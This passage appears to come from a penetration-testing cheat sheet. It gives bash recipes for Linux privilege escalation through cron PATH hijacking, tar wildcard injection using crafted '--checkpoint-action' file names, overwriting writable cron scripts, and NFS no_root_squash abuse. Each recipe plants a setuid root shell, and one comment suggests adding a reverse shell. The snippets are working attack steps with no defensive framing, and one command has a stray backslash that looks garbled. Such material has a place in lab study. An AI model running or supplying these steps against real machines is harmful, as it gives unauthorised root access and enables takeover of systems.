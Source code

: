 #### Cron Paths

```bash
# Where is the PATH executing first? And can we write to it?
# Is there a script being run without an absolute path?
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
# Now wait for the cronjob to execute...
# Exploit
/tmp/bash -p
```

#### Cron Wildcards

```bash
# Where is the PATH executing first?
cat /usr/local/bin/compress.sh
# Script shows using a wildcard i.e. tar czf /tmp/backup.tar.gz *
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
# Now wait for the cronjob to execute...
# Exploit
/tmp/bash -p
```

#### Cron File Overwrites

```bash
# Where is the PATH executing first?
# Can we write to the file?
locate overwrite.sh
ls -la /usr/local/bin/overwrite.sh
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
# Can also echo a reverse shell into the file instead
# Exploit
/tmp/bash -p
```

### NFS

```bash
# From target
cat /etc/exports  # Look for no_root_squash
# From Kali (as root)
showmount -e <IP>
mkdir /tmp/mountme
mount -o rw,vers=2 <IP>:/tmp /tmp/mountme
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
# From target
cd /tmp
./x
```

